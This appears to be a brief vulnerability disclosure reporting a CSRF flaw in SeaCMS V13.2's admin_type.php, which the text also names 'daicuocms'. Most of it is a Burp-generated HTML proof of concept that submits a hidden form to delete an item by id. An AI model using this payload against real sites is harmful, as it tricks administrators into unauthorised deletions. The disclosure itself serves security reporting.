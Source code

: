 
target:https://github.com/seacms-net/CMS/blob/master/SeaCMS_V13.2_install.zip
version: V13.2

daicuocms V13.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /qzm01p/admin_type.php

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.31.101/qzm01p/admin_type.php">
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="16" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

